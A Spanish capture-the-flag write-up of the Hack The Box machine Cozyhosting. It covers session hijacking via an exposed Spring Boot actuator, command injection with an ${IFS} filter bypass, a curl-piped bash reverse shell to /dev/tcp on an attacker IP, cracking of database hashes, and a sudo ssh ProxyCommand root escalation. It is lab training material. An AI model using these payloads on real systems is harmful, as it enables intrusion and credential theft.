---

# Información
---


- **Nombre**: Cozyhosting
- **Plataforma**: Hack The Box
- **Año de creación**: 2023
- **Estatus**: Retirada
- **Creador**: commandercool
- **Sistema operativo**: Linux
- **Técnicas empleadas**: Spring Boote Web Page Enumeration, Information Leakage, Cookie Hijacking, Command Injection + Filter Bypass, JAR archive inspection with JD-GUI + Information Leakage, PostgreSQL Database Enumeration, Cracking Hashes, Abusing Sudoers Privilege (ssh) (Privilege Escalation)

---

# 1. Reconocimiento
---

## Comprobar conexión con el objetivo

Se inició la fase de reconocimiento verificando la disponibilidad del objetivo mediante el envío de cuatro paquetes **ICMP** utilizando la herramienta **ping**. Este paso permite confirmar que la máquina está operativa y que no hay bloqueos de red inmediatos que impidan el escaneo posterior.

**Comando ejecutado:**
```bash
ping -c 4 10.129.3.204
```



**Análisis de resultado:**
El objetivo respondió satisfactoriamente a todas las solicitudes **ICMP**, reportando un **0% de pérdida de paquetes**, lo que confirma una conectividad estable con el host.

Adicionalmente, el análisis del valor **TTL (Time To Live)** de los paquetes recibidos arrojó un valor de **63**. Dado que este valor es próximo a 64, se puede inferir con un alto grado de probabilidad que el sistema operativo de la máquina objetivo es **Linux**.

---

## Enumeración de puertos (TCP)

Como continuación de la fase de reconocimiento, se realizó un escaneo exhaustivo sobre el rango completo de puertos TCP (1-65,535). El objetivo fue identificar todos los servicios en estado `open` (abierto) para definir la superficie de ataque del objetivo.

Para optimizar el tiempo de respuesta sin sacrificar precisión, se utilizó el siguiente comando:

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.3.204 -oN full-ports.txt
```

### Resultados:
El escaneo identificó únicamente dos puertos en estado **open**: **22 (SSH)** y **80 (HTTP)**. En consecuencia, el siguiente paso lógico consiste en realizar una **enumeración de servicios y versiones** para identificar las tecnologías en ejecución y determinar con precisión la superficie de ataque disponible.



---
# 2. Enumeración
---

## Enumeración de servicios y NSE

Una vez identificados los puertos abiertos, se realizó una fase de inspección profunda para determinar las versiones específicas de los servicios mediante el parámetro `-sV`. Asimismo, se ejecutaron los scripts de reconocimiento por defecto del **Nmap Scripting Engine (NSE)** utilizando la bandera `-sC`, con el objetivo de detectar vulnerabilidades potenciales o configuraciones expuestas.

**Comando ejecutado:**

```bash
nmap -p 22,80 -sCV 10.129.3.204 -oN nse-versions.txt
```



### Resultados:
Tras la ejecución del escaneo, se identificaron los siguientes vectores y características técnicas:

- **Puerto 22 (SSH):** Se detectó el servicio **OpenSSH 8.9p1** sobre **Ubuntu**. No se hallaron vulnerabilidades críticas de ejecución remota de comandos (RCE) para esta versión específica. La presencia de este servicio confirma que el sistema operativo base es **Linux**.

- **Puerto 80 (HTTP):** El servidor web **nginx/1.18.0** reportó una redirección hacia el dominio `http://cozyhosting.htb`. Este comportamiento indica el uso de **Virtual Hosting**, lo que requiere la actualización del archivo local `/etc/hosts` para permitir la resolución del nombre de dominio.

#### Conclusión y Formulación de Hipótesis:

Tras mapear el dominio, el título de la página web se identificó como **"Cozy Hosting - Home"**. Se observó una discrepancia significativa entre los _codenames_ de las versiones: mientras que el servicio SSH corresponde a **Ubuntu Jammy**, el servicio HTTP parece alinearse con **Hirsute**.

Esta inconsistencia en las versiones de la distribución sugiere la posibilidad de que uno de los servicios esté operando de forma aislada mediante un **contenedor (Docker/LXC)** o un _proxy_ inverso, fragmentando la superficie de ataque inicial.

---

## Enumeración web

Con el objetivo de identificar vectores de ataque potenciales, se inició una fase de reconocimiento sobre la aplicación web para determinar las tecnologías en ejecución. La primera herramienta empleada para este propósito fue **WhatWeb**.

**Comando ejecutado:**

```bash
whatweb http://cozyhosting.htb
```

### **Resultados y análisis:**

El análisis del sitio reveló el uso de los siguientes componentes:

- **Framework de UI:** Se identifica el uso de **Bootstrap** para el maquetado y **Lightbox** para la gestión de elementos visuales.
- **Servidor Web:** Se confirma la versión **nginx/1.18.0** sobre **Ubuntu Linux**.
- **Encabezados de Seguridad:**
    - **X-Frame-Options [DENY]:** Indica protección activa contra ataques de _Clickjacking_.
    - **X-XSS-Protection [0]:** **Nota crítica:** A diferencia de lo interpretado inicialmente, el valor `0` indica que el filtro de protección contra _Cross-Site Scripting_ (XSS) del navegador está **desactivado**, lo que podría facilitar la explotación de vulnerabilidades de este tipo si existen puntos de inyección.

- **Información Adicional:** Se extrajo un punto de contacto corporativo (`info@cozyhosting.htb`), útil para posibles fases de ingeniería social o enumeración de usuarios.

---

## Inspección de la página web

Se realizó una inspección visual de la aplicación, identificando cuatro secciones principales en la navegación: **Home**, **Services**, **Pricing** y **Login**.

Tras un análisis preliminar, se determinó que la mayoría de estas secciones presentan contenido estático sin relevancia crítica para la fase de enumeración, con la excepción del **panel de Login**. Este último se identifica como un punto de interés primordial, ya que representa un vector de entrada directo para posibles ataques de fuerza bruta, derivación de credenciales o inyección de código.


Tras someter el formulario de autenticación a diversas pruebas de seguridad, se determinó que no presentaba vulnerabilidades superficiales explotables. En concreto, se descartaron los siguientes vectores:

- **Enumeración de usuarios:** Los mensajes de error son genéricos, lo que impide confirmar la existencia de cuentas válidas.
- **Registro de cuentas:** No existe una funcionalidad expuesta para el alta de nuevos usuarios (_Self-registration_).
- **Inyecciones (XSS/SQLi):** No se detectaron puntos de inyección en los campos de entrada tras las pruebas de carga (_payloads_) iniciales.

### Cambio de estrategia: Reconocimiento Activo

Ante la robustez del panel de acceso principal, se procedió a realizar una **búsqueda activa de directorios y subdominios** mediante técnicas de _fuzzing_. El objetivo de esta fase es ampliar la superficie de ataque y localizar rutas ocultas, archivos de configuración expuestos o subdominios que puedan servir como un vector de entrada alternativo.




---

## Fuzzing de directorios y archivos (Gobuster)

Para identificar rutas no indexadas o recursos ocultos desde el lado del cliente, se realizó una fase de **fuzzing de directorios** mediante fuerza bruta utilizando la herramienta **Gobuster**.

En esta etapa, se empleó un diccionario de la suite **SecLists** (_directory-list-2.3-medium.txt_) y se extendió el alcance de la búsqueda para detectar archivos con extensiones comunes (`.php`, `.json`, `.py`, `.txt`, `.xml`), con el fin de localizar posibles archivos de configuración o scripts expuestos.

**Comando ejecutado:**

```bash
**gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,json,py,txt,xml -t 100 -o directory-discovery.txt
```

### Análisis de Resultados: Identificación de Framework

El proceso de _fuzzing_ permitió identificar los siguientes puntos de enlace (_endpoints_): `/index`, `/login`, `/admin`, `/logout` y `/error`. Aunque la mayoría de las rutas no revelaron información crítica de manera inmediata, el análisis del directorio `/error` resultó determinante.

Al acceder a dicha ruta, se visualizó una página de error genérica conocida como **Whitelabel Error Page**. Tras una fase de investigación y huella digital (_fingerprinting_), se confirmó que dicha estructura corresponde al manejo de excepciones por defecto de **Spring Boot**.

Este hallazgo es de alta relevancia, ya que desplaza el vector de ataque hacia la enumeración de _endpoints_ específicos de este framework.



**Fuzzing dirigido (Spring Boot)** Tras confirmar el uso de **Spring Boot**, se ejecutó una nueva fase de enumeración dirigida utilizando **Gobuster**. En esta ocasión, se sustituyó el diccionario genérico por uno especializado en esta tecnología, con el objetivo de localizar _endpoints_ de gestión y administración que no suelen estar expuestos en directorios estándar.

**Comando ejecutado:**

```bash
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/Programming-Language-Specific -t 100 -o dir-spring.txt
```

#### Análisis de Resultados e Identificación del Vector de Ataque

Tras el escaneo especializado, se identificó una vulnerabilidad crítica de **exposición de información sensible** en el _endpoint_ `/actuator/sessions`. Este recurso expone de manera pública los identificadores de sesión (Cookies) de los usuarios autenticados en la aplicación.

En particular, se localizó un **Token de Sesión (JSESSIONID)** perteneciente al usuario **kanderson**. Este hallazgo constituye un vector de ataque directo mediante la técnica de **Session Hijacking** (secuestro de sesión). Al suplantar esta cookie en el navegador, es posible omitir el proceso de autenticación y acceder al sistema con los privilegios del usuario afectado sin necesidad de conocer sus credenciales.



---
# 3. Explotación (Acceso inicial)
---

## Secuestro de Sesión e Intrusión

Tras suplantar el token de sesión del usuario **kanderson**, se validó el acceso exitoso a la interfaz administrativa de la aplicación, omitiendo por completo el mecanismo de autenticación.

Durante la auditoría de la zona privada, una inspección técnica detallada permitió localizar una vulnerabilidad crítica en una de las funciones del panel. Se identificó un punto de inyección que permite la **Ejecución Remota de Comandos (RCE)**, lo que facultaría a un atacante para ejecutar instrucciones directamente en el servidor subyacente con los privilegios del servicio web.



### dentificación del vector de intrusión (RCE)

Tras explorar el panel de administración, se localizaron dos campos de entrada destinados al usuario: **Hostname** y **Username**. Asimismo, la interfaz presenta el siguiente mensaje instructivo:

> _"For Cozy Scanner to connect, the private key that you received upon registration should be included in your host's .ssh/authorized_keys file."_

**Análisis de la lógica del lado del servidor:**
A partir de este mensaje y del comportamiento observado, se infiere que la aplicación concatena los valores introducidos por el usuario para ejecutar un comando de sistema mediante una subshell. La estructura lógica del comando ejecutado en el servidor sería la siguiente:

```bash
ssh -i id_rsa username@hostname
```

Esta implementación representa una vulnerabilidad crítica de **Inyección de Comandos (Command Injection)**. Al no existir una sanitización adecuada de los campos de entrada, un atacante podría utilizar metacaracteres de shell (como `;`, `&&`, `||` o `$( )`) para interrumpir el comando legítimo y ejecutar instrucciones arbitrarias con los privilegios del usuario que corre el servicio web.

---

## Prueba de Concepto (PoC): Confirmación de Command Injection

Para validar la vulnerabilidad de inyección de comandos, se realizaron pruebas de segmentación de instrucciones con el fin de evadir las posibles restricciones de la aplicación. Se determinó que el servidor filtraba los espacios en blanco, por lo que se utilizó la variable de entorno `${IFS}` (Internal Field Separator) para mantener la integridad del _payload_.

**Sintaxis inyectada en el campo `username`:**

```bash
ssh -i id_rsa test|ping${IFS}10.10.16.77
```

La lógica del ataque consistió en utilizar el carácter _pipe_ (`|`) para interrumpir el flujo del comando `ssh` original y forzar la ejecución de una instrucción secundaria. Se optó por el comando `ping` hacia la dirección IP del atacante como método de comprobación no destructivo.

Para verificar la recepción de los paquetes **ICMP**, se mantuvo una escucha activa en la máquina local mediante **tcpdump**:



**Comando ejecutado en la máquina atacante:**

```bash
sudo tcpdump -i tun0 icmp
```

### Resultados y Conclusión de la PoC

La recepción exitosa de los paquetes de eco (_echo requests_) en la máquina local confirmó de manera fehaciente la **ejecución de comandos arbitrarios en el servidor**.

Una vez validada la capacidad de ejecución y la conectividad de red entre ambos extremos, el siguiente paso lógico es la explotación definitiva mediante la inyección de una **Reverse Shell**. Esto permitirá establecer un canal de comunicación interactivo con el servidor para proceder con la fase de post-explotación.



---

## Intrusión al sistema objetivo y estabilización de la TTY

Para garantizar la estabilidad del _payload_ y evitar errores de sintaxis debidos a la presencia de caracteres especiales en el formulario web, se optó por un método de ejecución en dos etapas en lugar de una inyección directa de la _reverse shell_.

**1. Preparación del entorno (Máquina Atacante):** Se creó un script de Bash denominado `index.html` con el siguiente contenido:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.77/3000 0>&1
```

Posteriormente, se inició un servidor HTTP local en el puerto 80 para alojar el script y un oyente (_listener_) con Netcat en el puerto 4444.

**2. Ejecución de la intrusión (Vector Web):** Se inyectó una instrucción que utiliza `curl` para descargar el script desde la máquina del atacante y redirigir su contenido directamente al intérprete de `bash` para su ejecución inmediata.

**Comando inyectado en el campo `username`:**

```bash
test|curl${IFS}10.10.16.77|bash;#
```

### Acceso al sistema objetivo

Tras la ejecución del vector de ataque, se estableció una conexión reversa exitosa, obteniendo acceso al sistema bajo el contexto del usuario **app**.

Al tratarse de una shell básica (no interactiva), el siguiente paso crítico fue el **tratamiento de la TTY**. Este procedimiento es esencial para estabilizar la conexión, permitiendo el uso de comandos interactivos, el autocompletado con tabulador y la gestión adecuada de señales de teclado (como el manejo de procesos en segundo plano).



### Estabilización de la TTY

Para transformar la shell básica en una terminal interactiva y estable, se ejecutó el siguiente procedimiento:

1. `script /dev/null -c bash` (Para iniciar una sesión de shell simulada).
2. **Ctrl + Z** (Para suspender el proceso y regresar a la máquina atacante).
3. `stty raw -echo; fg` (Para configurar el paso de caracteres en crudo y recuperar el proceso en primer plano).
4. `reset xterm` (Para resetear la configuración de la terminal).
5. `export TERM=xterm` (Para definir la emulación de terminal).
6. `export SHELL=/bin/bash` (Para establecer el intérprete de comandos por defecto).

> **Nota:** En este reporte se describe el proceso de estabilización de forma sintética. Para profundizar en la metodología y los fundamentos técnicos de este procedimiento, puede consultar la guía detallada ubicada en el directorio raíz de este repositorio.

---

## Enumeración interna y movimiento lateral

Una vez estabilizada la TTY, se confirmó que el usuario **app** posee privilegios restringidos. Ante esta limitación, se inició una fase de enumeración local con el objetivo de identificar vectores de escalada de privilegios o migración de usuario.

Durante la exploración del directorio de trabajo (`/app`), se localizó un artefacto de Java: `cloudhosting-0.0.1.jar`. Para realizar un análisis exhaustivo en un entorno controlado, se procedió a la **exfiltración** del archivo hacia la máquina atacante utilizando el módulo de servidor HTTP de Python.

**Comandos ejecutados:**

- **En el objetivo:**

```bash
python3 -m http.server 3000
```

- **En el atacante:**

```bash
wget http://10.129.3.204:3000/cloudhosting-0.0.1.jar
```

---
## Análisis de artefacto e identificación de Information Leakage

Para examinar el contenido del archivo `.jar` (que es esencialmente un archivo comprimido), se utilizó la herramienta `7z` para realizar una descompresión completa. Posteriormente, se ejecutó un **análisis estático** mediante una búsqueda recursiva de cadenas de texto sensibles para identificar posibles credenciales expuestas.

**Comando ejecutado:**

```bash
grep -r -i 'password'
```

### Análisis de los resultados

El análisis recursivo de cadenas de texto permitió identificar información sensible dentro del archivo `BOOT-INF/classes/application.properties`. En este archivo de configuración de Spring Boot, se localizó una credencial en texto plano asociada a la base de datos:

- **Ruta:** `BOOT-INF/classes/application.properties`
- **Directiva:** `spring.datasource.password=Vg&nvzAQ7XxR`
#### Ingeniería inversa con JD-GUI

Con el objetivo de profundizar en la lógica de la aplicación y buscar otras posibles filtraciones, se procedió a realizar la **descompilación** del archivo `.jar` utilizando la herramienta **JD-GUI**. Este análisis estático del código fuente permitió examinar la estructura de clases y reveló la siguiente configuración relevante:

- **Gestor de Base de Datos (SGBD):** PostgreSQL
- **Host:** `localhost` (Puerto 5432)
- **Base de Datos:** `cozyhosting`
- **Usuario:** `postgres`
- **Contraseña:** `Vg&nvzAQ7XxR`



---

## Conexión a la base de datos y descubrimiento de hashes

Tras la obtención de las credenciales en el análisis estático, se estableció una conexión local con el gestor de base de datos **PostgreSQL**. Utilizando el cliente `psql`, se procedió a la enumeración de los esquemas y tablas disponibles.

**Comando de conexión:**

```bash
psql -h localhost -U postgres -d cozyhosting
```

entro de la base de datos, se identificó la tabla `users`, la cual almacenaba información sensible de las cuentas del sistema. La consulta de los registros permitió la extracción de los identificadores y _hashes_ de contraseña de los usuarios **kanderson** y **admin**.



Con los _hashes_ exfiltrados, el siguiente paso lógico es realizar un ataque de **fuerza bruta/diccionario** mediante la herramienta **Hashcat**. Dado que los _hashes_ comienzan con `$2a$`, se identifica que utilizan el algoritmo **bcrypt**, lo que requiere una configuración específica de modo en la herramienta de ataque para procesar la carga de trabajo de forma eficiente.

---

## Cracking de hash y acceso como el usuario: Josh

Una vez exfiltrados los hashes de la base de datos, se almacenaron en un archivo local para proceder con el ataque de fuerza bruta fuera de línea (_offline cracking_). Utilizando **Hashcat**, se configuró el modo de ataque para el algoritmo **bcrypt** y se empleó el diccionario estándar `rockyou.txt`.

**Comando ejecutado:**

```bash
hashcat -m 3200  hashes /usr/share/wordlists/rockyou.txt  
```

### Resultados y Validación de Credenciales

El proceso de cracking finalizó con éxito, logrando obtener la contraseña en texto plano para el hash correspondiente al perfil administrativo:

- **Usuario (Web):** admin
- **Contraseña:** `manchesterunited`

Posteriormente, se realizó una lectura del archivo `/etc/passwd` en la máquina objetivo para identificar los usuarios del sistema que podrían ser vulnerables a la reutilización de credenciales. Se confirmó la existencia del usuario **josh**.

#### Acceso como el usuario `josh`

Tras confirmar la existencia del usuario **josh** en el sistema y disponer de la contraseña obtenida mediante el cracking del hash (`manchesterunited`), se procedió a validar la **reutilización de credenciales**.

Se ejecutó el cambio de contexto de usuario directamente desde la shell activa. El acceso fue exitoso, permitiendo la migración desde el usuario de bajos privilegios `app` hacia el usuario de sistema `josh`. Con este movimiento lateral, se obtuvo acceso al directorio personal del usuario y a la primera bandera de seguridad del sistema (`user.txt`).




---
# 4. Post-Explotación
---

## Escalada de privilegios

Una vez posicionado como el usuario **josh**, se procedió a auditar sus capacidades de ejecución mediante el comando `sudo -l`. Esta inspección reveló una configuración de seguridad deficiente (misconfiguration) que permite al usuario ejecutar el binario `/usr/bin/ssh` con privilegios de **superusuario (root)** sin restricciones de argumentos.

**Configuración detectada:**

```bash
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh
```

### Explotación de binario SSH (GTFOBins)

De acuerdo con la metodología de **GTFOBins**, ciertos binarios legítimos del sistema pueden ser utilizados para omitir restricciones de seguridad si poseen privilegios de **Sudo**. En este caso, la capacidad de ejecutar `ssh` como superusuario permite aprovechar la opción `-o ProxyCommand`.

Esta directiva está diseñada para ejecutar un comando que establezca la conexión antes de que SSH proceda. Al anteponer un punto y coma (`;`), se interrumpe la lógica del comando original y se fuerza la ejecución de una shell (`sh`) bajo el contexto de **root**.

**Comando de explotación ejecutado:**

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

#### Post-Explotación y Acceso Total

Tras la ejecución exitosa, se obtuvo una shell con el identificador de usuario **UID 0** (root). Para mejorar la experiencia interactiva y la gestión de procesos, se invocó una instancia de `bash`, procediendo finalmente a la lectura de la bandera de administración.

**Comandos finales:**

```bash
# Invocar bash para una mejor interfaz
bash

# Lectura de la flag de root
cat /root/root.txt
```



---


